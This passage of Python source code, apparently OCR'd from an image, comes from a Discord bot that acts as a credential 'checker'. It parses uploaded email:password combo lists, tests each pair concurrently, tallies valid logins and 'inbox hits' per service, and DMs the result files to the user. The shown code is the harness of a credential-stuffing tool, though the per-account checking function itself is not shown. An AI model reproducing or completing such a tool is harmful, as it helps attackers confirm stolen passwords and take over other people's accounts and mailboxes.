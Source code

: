     embed.add_field(name="Valid:", value=str(session["good_count"]), inline=True)
    embed.add_field(name="Invalid:", value=str(session["bad_count"]), inline=True)
    breakdown = ""
    for service, names in session["service_hits"].items():
        breakdown += f"> {service.capitalize()}: **{len(names)}**\n"
    if not breakdown.strip():
        breakdown = "No inbox hits found yet."
    embed.add_field(name="Service Hits", value=breakdown, inline=False)
    embed.set_footer(text="Made by aries")
    embed.set_thumbnail(url="https://cdn.discordapp.com/attachments/1355921298487771136/1355926602650877952/IMG_3967.jpg")
    return embed

# -----------------------------------------------------------------------------------
#                     DM RESULTS PER USER
# -----------------------------------------------------------------------------------
async def dm_results(user: discord.User) -> None:
    dm_channel = await user.create_dm()
    files = get_user_results(user.id)
    if not files:
        await safe_api_call(dm_channel.send("No results available."))
        return
    attachments = [discord.File(fp) for fp in files]
    batch_size = 5
    for i in range(0, len(attachments), batch_size):
        batch = attachments[i:i + batch_size]
        try:
            await safe_api_call(dm_channel.send("Here are some of your results:", files=batch))
            await asyncio.sleep(2)
        except Exception as e:
            logger.error(f"Error sending DM: {e}")

# -----------------------------------------------------------------------------------
#                     CHECKER LOGIC (ALL + SINGLE)
# -----------------------------------------------------------------------------------
async def check_all_file(file_content: str, user_id: int) -> None:
    session = get_user_session(user_id)
    async with aiohttp.ClientSession() as http_session:
        tasks = []
        for line in file_content.splitlines():
            if session["should_stop"]:
                break
            if ":" in line:
                parts = line.strip().split(":", 1)
                if len(parts) == 2:
                    email, password = parts
                    tasks.append(all_checker_logic(user_id, email, password, http_session))
        await asyncio.gather(*tasks)
